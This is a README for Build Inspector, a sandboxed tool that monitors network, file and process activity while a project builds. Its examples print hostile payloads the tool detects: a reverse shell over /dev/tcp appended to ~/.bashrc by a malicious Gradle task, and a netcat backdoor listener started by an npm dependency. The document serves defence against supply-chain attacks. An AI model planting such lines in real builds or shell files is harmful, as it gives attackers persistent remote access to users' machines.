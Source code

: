 # Build Inspector

[Build Inspector](https://github.com/srcclr/build-inspector) is a
tool that gives insight into what's happening when you're building a
project. It is language and build system agnostic and it is capable of
inspecting network activities, file system changes and running
processes. All these happens in a sandboxed environment, without
compromising the developer's machine.

## Requirements

- [Ruby](https://www.ruby-lang.org/en/downloads/) (2.2.3 recommended)
- [Vagrant](https://www.vagrantup.com/)

Once you have both ruby and vagrant installed, go ahead and install
the sahara plugin, bundler and this project's dependencies.

```
vagrant plugin install sahara
git clone https://github.com/srcclr/build-inspector
gem install bundler
bundle install
```

## Running

First, make sure that you have the
[requirements](https://github.com/srcclr/build-inspector#Requirements)
and you are inside the repository's directory.

```
cd build_inspector
```

Since this tool does not manage vagrant for you, yet, you'll have to
do it yourself. This step will take a while the first time, but won't
be necessary again. Eventually, this step will be eliminated. Start
vagrant and build the image:

``` vagrant up ```

Once vagrant is started, save a snapshot with:
```
vagrant sandbox on
```

### Usage

```
Usage inspector.rb [options] <git repo URL>
    -h, --help                       Display this screen
    -n, --no-rollback                Don't rollback the virtual machine's state after running
```

### Gradle Example

```
cp configs/gradle_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/TotallyLegitApp.git
```

The above project has a task called `backdoor` that adds a reverse
connect shell to `~/.bashrc`.

After running, you should see this at the bottom of the output:

```
changed: ~/.bashrc
--- /backup/root/.bashrc	2014-02-19 21:43:56.000000000 -0500
+++ /root/.bashrc	2015-11-08 13:07:40.579626388 -0500
@@ -97,3 +97,5 @@
 #if [ -f /etc/bash_completion ] && ! shopt -oq posix; then
 #    . /etc/bash_completion
 #fi
+
+bash -c "bash -i>&/dev/tcp/localhost/1337 0>&1 &disown"&>/dev/null
```

In addition, you'll have a file that looks like
`201523110032412-TotallyLegitApp-evidence.zip` which has all the
network activity, file system changes, and any new processes.

### Bundler Example

```
cp configs/bundler_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/harmless-project.git
```

This bundler project has a gem that pings google during its
installation.

Run it with the Build Inspector and you should see a list of domains
that the machine tried to connect to.

```
The following hostnames were reached during the build process:
  www.google.com (74.125.200.99)                                     543B
```

### NPM Example

```
cp configs/npm_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/ann-pee-am
```

Inspecting this npm project should yield the following output:

```
The following processes were running during the build:
  - /bin/sh -i
  - nc -l 0.0.0.0 8080
```

That's because the npm project depends on a module that opens a
persistent backdoor using netcat.

### Configuration

The tool monitors all network and file system activities.  To ignore
hosts or exclude directories from the monitoring, create and add an
`.inspect.yml` in the repository.  The `.inspect.yml' file is simply
a YAML file that looks like this:

```
---

script: bundle install --jobs 2

whitelist:
  - 10.0.2.2
  - 8.8.8.8
  - bundler.rubygems.org
  - rubygems.org
  - rubygems.global.ssl.fastly.net

directories:
  excluded:
    - /home/vagrant/.gem
  included:
    - /etc
```

There are examples for different build systems in the `configs`
directory.  You may copy the approriate configs for your build system
to the root of this project or you may write one from scratch.

## Development

When you want to experiment, just do `vagrant sandbox on`. Make all
the changes you want to the image. If you'd like to keep them do
`vagrant sandbox commit` and if you don't do `vagrant sandbox
rollback`.
